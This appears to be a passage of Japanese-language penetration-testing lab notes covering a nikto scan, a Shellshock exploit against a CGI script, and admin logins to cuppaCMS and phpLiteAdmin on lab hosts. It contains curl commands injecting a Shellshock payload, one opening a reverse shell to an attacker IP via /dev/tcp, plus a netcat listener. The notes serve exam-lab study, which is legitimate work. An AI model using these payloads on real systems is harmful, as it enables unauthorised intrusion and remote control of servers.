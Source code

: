 * nikto

  ```
  nikto -host http://10.11.1.71
  ```

  時間がかかるから早めにやるリストに入れたい

* Exploit

  https://www.exploit-db.com/exploits/34766

  ```bash
  curl -H 'User-Agent: () { :; }; /bin/bash -c "whoami"' http://10.11.1.71/cgi-bin/admin.cgi
  ```

  ```bash
  curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/192.168.119.167/4444 0>&1"' http://10.11.1.71/cgi-bin/admin.cgi
  ```

  ```
  nc -lvnp 4444
  ```

  

### cuppaCMS+phpLiteAdmin

どちらも認証を先に行う必要がある。10.11.1.116ではadminでログインができた。

http://10.11.1.116/db/phpliteadmin.php

![image-20230214232620611](img/webapplication/image-20230214232620611.png)

http://10.11.1.116/administrator/

![image-20230214232700135](img/webapplication/image-20230214232700135.png)
